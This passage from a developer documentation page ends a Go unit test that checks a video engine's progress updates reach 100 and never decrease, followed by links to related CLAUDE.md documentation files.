    var progressUpdates []int
    for progress := range progressChan {
        progressUpdates = append(progressUpdates, progress)
    }
    
    // Verify progress updates
    assert.NotEmpty(t, progressUpdates)
    assert.Equal(t, 100, progressUpdates[len(progressUpdates)-1]) // Final progress should be 100%
    
    // Verify progress is increasing
    for i := 1; i < len(progressUpdates); i++ {
        assert.GreaterOrEqual(t, progressUpdates[i], progressUpdates[i-1])
    }
}
```

---

**Related Documentation:**
- [Video Engine Overview](../CLAUDE.md)
- [Service Composition](../composition/CLAUDE.md)
- [Core Services](../../services/CLAUDE.md)
- [Security Architecture](../../../../security/CLAUDE.md)